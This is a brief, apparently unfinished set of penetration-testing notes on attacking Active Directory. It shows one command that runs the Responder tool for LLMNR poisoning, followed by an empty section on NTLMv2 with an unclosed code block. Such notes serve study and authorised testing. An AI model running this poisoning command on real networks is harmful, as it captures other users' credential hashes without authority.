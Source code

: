 # ADAttacking

## LLMNR poisioning

```
python3 responder -i tun0 -rdwv
```

## NTLMv2 (Respoonder)

```

``
